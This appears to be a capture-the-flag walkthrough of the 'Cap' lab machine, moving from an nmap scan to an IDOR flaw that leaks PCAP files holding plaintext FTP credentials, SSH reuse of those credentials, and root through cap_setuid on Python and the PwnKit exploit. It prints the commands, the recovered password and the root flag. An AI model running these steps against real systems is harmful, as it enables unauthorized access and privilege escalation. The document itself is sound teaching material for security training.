

## Summary

**Cap** is an Easy difficulty Linux machine that highlights common misconfigurations in web application access controls and Linux privilege management. The attack path begins with the discovery of an Insecure Direct Object Reference (IDOR) vulnerability within a custom administrative dashboard. This flaw allows attackers to download historical network packet captures (PCAP files) belonging to other users. Analysis of these captures reveals plaintext FTP credentials, which are successfully reused for SSH access. Finally, privilege escalation is achieved by abusing a dangerous Linux capability (`cap_setuid`) assigned to the Python interpreter, allowing for a trivial bypass of the standard permissions model. An alternative escalation vector via CVE-2021-4034 (PwnKit) is also explored.

## Machine Information

| Property   | Value              |
|------------|--------------------|
| OS         | Ubuntu 20.04.2 LTS |
| Difficulty | Easy               |
| Hostname   | cap                |

---

## 1. Service Enumeration

The engagement begins with a comprehensive port scan to identify the exposed attack surface.

```shell title="Nmap Scan"
nmap -sC -sV -T4 -oA reports/cap_ 10.129.18.236
```

```text title="Nmap Output"
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals three active services:
- **Port 21 (FTP):** Running `vsftpd 3.0.3`. Anonymous login was tested and determined to be disabled.
- **Port 22 (SSH):** Running `OpenSSH 8.2p1`.
- **Port 80 (HTTP):** A web application running on `Gunicorn`, presenting a "Security Dashboard".

With no immediate access via FTP or SSH, the primary focus shifts to the web application.

## 2. Vulnerability Discovery (IDOR)

Navigating to the web application on port 80 reveals an administrative interface. The dashboard displays real-time network traffic and system statistics. 


Further inspection of the user interface reveals that an administrative user named **Nathan** is currently logged in. However, the links within the user drop-down menu are inactive.


Exploring the application's functionality leads to the **Security Snapshot** endpoint (`/capture`). Requesting a snapshot causes the application to hang for approximately five seconds before redirecting the user to `/data/3`, where it presents a table of captured network packets.


The application also provides an option to download the generated PCAP (Packet Capture) file. Examining the URL structure reveals a sequential integer ID: `http://10.129.18.236/data/3`. This predictable object reference strongly suggests an **Insecure Direct Object Reference (IDOR)** vulnerability.

By manually manipulating the URL parameter, we can request historical capture files. Decrementing the ID to `0` successfully retrieves the very first capture generated on the system.


!!! note
    **Insecure Direct Object Reference (IDOR)** is an access control vulnerability that arises when an application uses user-supplied input to access objects directly without performing proper authorization checks. In this scenario, the lack of session validation on the `/data/{id}` endpoint allows any user to access sensitive packet captures belonging to other administrators or system processes.

## 3. Initial Access

We download the `0.pcap` file and analyze its contents using Wireshark. Because the FTP protocol transmits data in plaintext, any authentication attempts captured during this session will be visible.



By filtering the traffic and following the TCP stream, we successfully identify a plaintext FTP login sequence, yielding the following valid credentials:

- **Username:** `nathan`
- **Password:** `Buck3tH4TF0RM3!`

We can verify these credentials by authenticating against the FTP server:

```shell title="FTP Verification"
ftp nathan@10.129.18.236 
```

```text title="FTP Session"
Connected to 10.129.18.236.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files
```

While FTP access is useful for lateral enumeration, credential reuse is a common operational security failure. Testing the recovered credentials against the SSH service proves successful, granting us an interactive shell as the user `nathan`.

```shell title="SSH Access"
ssh nathan@10.129.18.236
```

Initial access is now established.

## 4. Privilege Escalation

With a stable foothold, the next objective is to escalate privileges to `root`. This walkthrough covers two distinct vectors: the intended path utilizing misconfigured Linux Capabilities, and an alternative route exploiting a vulnerable SUID binary (PwnKit).

### 4.1 Intended Path: Abusing Linux Capabilities

A standard post-exploitation step involves auditing the system for binaries with elevated privileges. While SUID binaries are common, **Linux Capabilities** provide a more granular way to assign specific privileges to executables without granting full root access. 

We utilize `getcap` to recursively enumerate all files with assigned capabilities:

```shell title="nathan@cap:~"
getcap -r / 2>/dev/null
```

```text title="Capabilities Output"
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The output highlights a critical misconfiguration: `/usr/bin/python3.8` has been granted `cap_setuid` and `cap_net_bind_service+eip`.

- **`CAP_NET_BIND_SERVICE`**: Allows a non-root process to bind to privileged network ports (port numbers < 1024). This is likely required by the Python-based web server to bind to port 80.
- **`CAP_SETUID`**: A highly dangerous capability that permits a process to manipulate its Real, Effective, and Saved User IDs (UIDs). 

Assigning `CAP_SETUID` to an interpreter like Python—which is designed to execute arbitrary user-supplied code—completely undermines the security boundary. It allows any unprivileged user to invoke Python and programmatically change their UID to `0` (root).

We exploit this by launching the Python 3 interpreter and using the `os` module to set our UID to root, followed by spawning a new shell.

```shell title="nathan@cap:~"
python3
```

```python title="Python Privilege Escalation"
import os
os.setuid(0)
os.system('/bin/bash')
```

This immediately drops us into a root shell.

```text title="root@cap:~"
id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

With administrative privileges secured, we can capture the final root flag:

```shell title="root@cap:~"
cat /root/root.txt
```

```text title="Root Flag"
dc70910c698fc785d939c545c6e0ac49
```

### 4.2 Alternative Path: Exploiting CVE-2021-4034 (PwnKit)

Alternatively, standard SUID enumeration reveals `/usr/bin/pkexec`. 

```shell title="SUID Enumeration"
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```

```text title="SUID Output (Truncated)"
-rwsr-xr-x 1 root root 44784 May 28  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 31032 Aug 16  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
```

This binary is vulnerable to **CVE-2021-4034 (PwnKit)**, a memory corruption vulnerability within Polkit's `pkexec` utility that allows unprivileged users to execute arbitrary code as root. Because this machine's packages are unpatched, it serves as a highly reliable secondary vector.

We clone a known public exploit repository to our local attack machine:

```shell title="Local Machine"
git clone https://github.com/ly4k/PwnKit.git
```

We then transfer the exploit source code to the target:

```shell title="Local Machine"
scp -r PwnKit nathan@10.129.18.236:/home/nathan/
```

Finally, we compile the payload on the target and execute it to instantly gain root access:

```shell title="nathan@cap: ~/PwnKit"
cd PwnKit
make
./PwnKit 'whoami && id'
```

```text title="Root execution"
root
uid=0(root) gid=0(root) groups=0(root),1001(nathan)
```

!!! success
    **Machine Compromised!**
    We successfully exploited Cap by identifying an IDOR vulnerability to leak historical network traffic, extracting plaintext FTP credentials from a PCAP file, and abusing misconfigured Linux Capabilities (`cap_setuid` on Python) to achieve root privileges.
